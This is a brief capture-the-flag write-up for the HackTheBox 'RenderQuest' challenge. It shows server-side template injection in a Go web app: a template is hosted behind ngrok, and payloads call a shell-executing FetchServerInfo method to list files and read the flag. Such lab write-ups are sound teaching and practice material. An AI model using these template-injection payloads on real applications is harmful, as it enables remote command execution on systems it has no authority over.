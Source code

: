 # RenderQuest HTB Challenge 

__________________________________________
The challenge say:
"**You provide the templates, we provide the data!**"
Translated: SSTI

We know from the files that the templates are working with "golang"

### SSTI + RCE

##### Steps To Test SSTI

1. Start a local python server `python3 -m http.server 80`
2. Start ngrok: `ngrok http 80`
3. Make a index.html file were we will Write inside one (or more) of the template found in the website of the challenge like this: `{{ .ServerInfo.KernelVersion }}`
4. Copy the *ngrok* URL and paste into the field in the challenge site and press render now.
5. Now browse the ngrok url so we can see the rendered template into the page.

### Exploit

In "main.go" there is an interesting function:

```go
func (p RequestData) FetchServerInfo(command string) string {
	out, err := exec.Command("sh", "-c", command).Output()
	if err != nil {
		return ""
```

The Function "FetchServerInfo()"" execute a shell command and we can decide the command:

If we use: `{{.FetchServerInfo "ls -la"}}` we can start to look for the flag file.
Then when we find the file: `{{.FetchServerInfo "cat ../flag_RanDoM_stRinG_.txt" }}`

